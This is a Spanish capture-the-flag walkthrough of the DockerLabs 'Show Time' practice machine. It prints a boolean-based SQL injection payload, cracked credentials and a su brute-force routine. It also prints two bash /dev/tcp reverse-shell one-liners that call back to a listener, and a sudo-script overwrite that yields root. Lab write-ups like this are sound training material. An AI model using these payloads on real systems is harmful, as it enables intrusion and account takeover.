 # SHOW TIME - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina Show Time. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./showtime.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: fácil
- Sistema Operativo: linux
- Autor: maciiii___

## RECONOCIMIENTO DE RED

### conectividad y SO

Comprobamos nuestra conectividad con la máquina: `ping -c 1 172.17.0.2`
> `-c 1` Solo enviar 1 paquete ICMP

![image](https://github.com/user-attachments/assets/75d6b7e0-7f86-440e-877b-7a8a41733a10)

Vemos que nos llega la respuesta de vuelta de la máquina, con TTL de 64 por lo que su SO es Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos con nmap: `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports`.
> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

#### puertos abiertos

**22 - TCP - SSH**

**80 - TCP - HTTP**

Hacemos un escaneo de servicios y versiones con nmap sobre los puertos abiertos: `nmap -p22,80 -sCV 172.17.0.2 -oN tcp_ports_targeted`.
> `-p22,80` hacer el escaneo sobre el puerto 22 y el 80.

> `-sCV` escanear el servicio y la versión (`sV`) y lanzar los scripts de reconocimiento por defecto (`sC`)

> `-oN tcp_ports_targeted` exportar el output en formato nmap al archivo `tcp_ports_targeted`

## RECONOCIMIENTO WEB

Antes de ir a ver la web desde el navegador, lanzamos desde consola el comando `whatweb http://172.17.0.2`. Vemos que la web es un Apache 2.4.58 y que la distro de la máquina es Ubuntu.

Ahora vemos la raíz de la web desde el navegador, y vemos este contenido:

![image](https://github.com/user-attachments/assets/7dd79aeb-48eb-42b6-8cc4-3669027a8b84)

Vemos un botón de login arriba a la derecha, que nos lleva a /login_page/index.php:

![image](https://github.com/user-attachments/assets/73518c8d-ba63-4244-b660-c09ad6568c84)

## EXPLOTACIÓN WEB

Vemos este panel. Si probamos a meter una comilla, sale un error de MySQL, por lo que es vulnerable a inyección SQL. Podemos comprobar que no es vulnerable a una inyección de tipo union based ya que no muestra los datos de las columnas, pero si que es vulnerable a una inyección boolean based. Podemos ir enviando consultas de verdadero o falso para conseguir bases de datos, tablas, columnas y registros. Por ejemplo, para sacar el primer caracter de la primera base de datos, podríamos hacer una consulta como esta: `admin' or (select substring(schema_name,1,1) from information_schema.schemata limit 0,1)='payload'-- -`, y capturar con burpsuite la petición para enviarla al intruder y poner un payload con muchos caracteres, y fijarnos en la respuesta del servidor para ver cual tiene un contenido diferente al resto, y entonces ese esrá el primer caracter. Siguiendo este concepto podemos programar un script en python que automatice todo el proceso del dump del motor MySQL: [script_SQLi](https://github.com/4bytess/dockerlabs-scripts/tree/main/showtime/SQLi).

Usando el script, conseguimos este dump:

![image](https://github.com/user-attachments/assets/781aef6d-129a-426b-8ea1-13c7ea7679fb)

Tenemos 3 credenciales:

- lucas:123321123321
- santiago:123456123456
- joe:MICLAVEESINHACKEABLE

Podemos probar todas en el panel de login de la página web. Las credenciales de Lucas y Santiago simplemente nos loguearán y nos dirán que estamos bienvenidos, pero la de Joe nos lleva a la ruta /login_page/admin-panel.php, en la que hay un panel en el que podemos ejecutar comandos de python:

![image](https://github.com/user-attachments/assets/2a6ab221-3ef9-492f-a929-7b5f24ce744d)

Podemos escribir el comando `import os; os.system('/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"')` y ponernos en escucha por el puerto 443 con netcat: `netcat -nlvp 443`, y ganamos una consola como el usuario www-data:

![image](https://github.com/user-attachments/assets/d25bdcba-b747-4d9c-8b7c-233328a81c92)

## ESCALADA DE PRIVILEGIOS

### USUARIO JOE

Podemos probar a hacer `su joe` y poner su contraseña de la base de datos, pero no funciona. Si probamos a buscar archivos SUID no hay ninguno interesante. Tampoco tenemos permisos especiales con sudo. Pero si buscamos en la ruta /tmp hay un archivo oculto llamado .hidden_text.txt. Dentro hay una lista de palabras en mayúsculas. Podemos usar esta lista como diccionario para aplicar fuerza bruta sobre el usuario luciano y joe (sabemos que existen gracias al /etc/passwd) con la herramienta [Sudo_BruteForce](https://github.com/Maalfer/Sudo_BruteForce). Nos la descargamos en nuestra máquina con git y la traemos a la máquina con un servidor simple de python3 (`python3 -m http.server 80`). En la máquina ejecutamos en /tmp este comando `bash Linux-Su-Force.sh joe ./.hidden_text.txt` y `bash Linux-Su-Force.sh luciano ./.hidden_text.txt`. No reporta ninguna contraseña como válida. Podemos probar a pasar las contraseñas a minúscula: `tr "A-Z" "a-z" < ./.hidden_text.txt > lowercase.txt`, y volver a hacer fuerza bruta con el nuevo diccionario: `bash Linux-Su-Force.sh joe ./lowercase.txt` y `bash Linux-Su-Force.sh luciano ./lowercase.txt`. Esta vez reporta una contraseña para el usuario Joe: "chittychittybangbang".

Ahora nos pasamos a una conexión SSH con las credenciales joe:chittychittybangbang.

### USUARIO LUCIANO

Siendo el usuario Joe, podemos probar a hacer `sudo -l` para listar privilegios especiales en sudo. Vemos esto:

![image](https://github.com/user-attachments/assets/24dbd247-2a74-42ec-9cbe-5a92e89d5132)

Podemos ejecutar como Luciano sin proporcionar contraseña el binario /bin/posh. Si probamos a ejecutar /bin/posh vemos que se nos abre una consola. Si probamos a hacer `sudo -u luciano /bin/posh` ganamos una consola como luciano:

![image](https://github.com/user-attachments/assets/a69279d7-1b25-4557-9856-b89774bfa848)

### ROOT

Ahora tenemos que llegar a ser root.

Si hacemos `sudo -l` vemos esto:

![image](https://github.com/user-attachments/assets/ac3b49d0-bc1a-4f69-a10c-5cf9070f1b9e)

Podemos ejecutar como root sin proporcionar contraseña el script /home/luciano/script.sh. Como el script está en nuestro directorio y somos su propietario, podemos simplemente modificarle para que root nos envíe una reverse shell al puerto 500 por ejemplo, y así ganar una consola como root.

En la máquina no hay editores de texto instalados, así que usamos echo: `echo "#!/bin/bash\n\n/bin/bash -i >& /dev/tcp/172.17.0.1/500 0>&1" > /home/luciano/script.sh`, nos ponemos en escucha por el puerto 500 en una consola aparte y ejecutamos el script: `sudo /bin/bash /home/luciano/script.sh`, y ganamos una consola como root:

![image](https://github.com/user-attachments/assets/8b86da5f-1a83-4e3e-9525-56505bd67ae7)
